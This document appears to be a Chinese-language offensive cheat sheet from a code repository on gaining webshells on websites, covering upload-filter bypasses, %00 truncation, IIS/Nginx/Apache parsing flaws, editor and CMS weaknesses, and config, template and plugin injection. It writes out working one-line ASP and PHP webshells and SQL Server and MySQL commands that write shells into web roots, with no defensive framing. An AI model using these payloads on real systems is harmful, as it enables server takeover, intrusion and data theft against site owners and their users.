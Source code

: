 # 管理权限拿webshell

需要有管理员权限才可以拿shell
通常需要登录后台后执行相关操作
直接上传拿shell

## 数据库备份拿shell

网站对上传得文件后缀进行过滤，不允许上传脚本类型文件如asp/php/jsp/aspx等
而网站具有数据库备份功能，这时我们就可以将webshell格式先改为允许上传得文件格式 如jpg、gif等
然后，我们找到上传后得文件路径，通过数据库备份，将文件备份为脚本格式

## 突破上传拿shell

本地js验证上传
服务器mime上传
服务器白名单上传
服务器黑名单上传
服务器filepath上传
双文件上传
%00截断上传
上传其他脚本类型拿webshell

## 修改网站上传类型配置拿webshell

有的网站，在网站上传类型中限制了上传脚本类型文件，我们可以去添加上传文件类型如添加asp|php|jsp|aspx|asa来拿webshell

## 利用解析漏洞拿webshell

1. IIS 5.x/6.0解析漏洞
2. IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞
3. Nginx <8.03空字节代码执行漏洞
4. Apache解析漏洞

## 利用编辑器漏洞拿webshell

常见得编辑器有： fckeditor、ewebeditor、cheditor等

## 网站配置插马拿webshell

通过找到网站默认配置，将一句话插入到网站配置中，不过为了能够成功执行插马，建议先下载该网站源码，进行查看源码过滤规则，以防插马失败
"%><%eval request("cracer")%><%'

## 通过编辑模板拿webshell

1. 通过对网站得模板进行编辑写入一句话，然后生成脚本文件拿webshell
2. 通过将木马添加到压缩文件，把名字改为网站模板类型，上传到网站服务器，拿webshell

## 上传插件拿shell

一些网站为了增加某些功能会在后台添加一些插件来实现
我们可以把木马添加到安装得插件中上传服务器拿shell
常见的有博客类网站、dz论坛都可以

## 数据库执行拿webshell

我们可以通过数据库执行命令导出一句话到网站根目录拿webshell
access数据库导出一般需要利用解析漏洞xx.asp;.xml
sqlserver导出
;exec%20sp_makewebtask%20%20%27c:\inetpub\wwwroot\ms\x1.asp%27,%27select%27%27<%execute(request("cmd"))%>%27%27%27 --

## 数据库命令执行拿webshell

- mysql命令导出shell

Create TABLE study (cmd text NOT NULL);
Insert INTO (cmd) VALUES('<?php eval($_POST[cmd]) ?>')
select cmd from study into outfile 'D:/php/www/htdocs/test/seven.php';
Drop TABLE IF EXISTS study;

- 版本二

use mysql;
create table x[packet text]type=MYISaM;
insert into x (packet) values('<pre><body><?php @system($_GET["cmd"]);?></body></pre>')
select x into outfile 'd:\php\xx.php'

版本三
select '<?php eval($_POST[cmd]);?>' into outfile 'C:/Inetpub/wwwroot/mysql-php/1.php'

## 文件包含拿webshell

先将webshell改为txt文件上传，然后上传一个脚本文件包含该txt文件，可绕过waf拿webshell
asp包含
1. <!--#include file="123.jpg"-->
2. 调用得文件必须和被调用文件在同异目录，否则找不到
3. 如果不在同一目录，用下面的语句：
<!--#include virtual="文件所在目录/123.jpg"-->

php包含

<?
php include("123.jpg");
?>

## 命令执行拿shell

Echo ^<^?php @eval($_POST['cracer']);?^>^ > c:\1.php
^<^%eval request("cracer'")%^>^ > c:\1.php

# 普通权限拿webshell

0day拿webshell
IIS写权限拿webshell
命令执行拿webshell
通过注入漏洞拿webshell
前台用户头像上传拿webshell
strusts拿webshell
java反序列拿shell

# 常见cms拿webshell

良精、科讯、动易、aspcms
dz
米拓cms
帝国cms
phpv9
phpweb
dedecms